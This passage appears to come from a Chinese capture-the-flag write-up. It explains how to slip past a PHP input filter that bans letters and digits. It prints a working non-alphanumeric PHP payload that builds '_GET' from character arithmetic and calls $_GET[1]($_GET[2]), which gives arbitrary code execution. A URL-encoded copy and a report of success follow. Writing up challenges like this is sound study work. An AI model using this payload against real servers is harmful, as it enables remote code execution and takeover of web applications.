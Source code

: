 去掉注释, 注意这里**引号可以直接去掉**, 这也算个坑, 顺便调整长度, 这里限制了必须传字符串, 不能用 `[]` 的方式直接绕, 那么用 `++var` 的方式即可:

```
$_=[]._;$__=$_[1];$_=$_[0];$_++;$_0=++$_;$_++;$_++;$_++;$_++;$_=$_0.++$_.$__;$_=_.$_(71).$_(69).$_(84);$$_[1]($$_[2]);
```

编码:

```
%24%5F%3D%5B%5D%2E%5F%3B%24%5F%5F%3D%24%5F%5B1%5D%3B%24%5F%3D%24%5F%5B0%5D%3B%24%5F%2B%2B%3B%24%5F0%3D%2B%2B%24%5F%3B%24%5F%2B%2B%3B%24%5F%2B%2B%3B%24%5F%2B%2B%3B%24%5F%2B%2B%3B%24%5F%3D%24%5F0%2E%2B%2B%24%5F%2E%24%5F%5F%3B%24%5F%3D%5F%2E%24%5F%2871%29%2E%24%5F%2869%29%2E%24%5F%2884%29%3B%24%24%5F%5B1%5D%28%24%24%5F%5B2%5D%29%3B
```

![28-1.png](28-1.png)

执行成功;

![28-2.png](28-2.png)
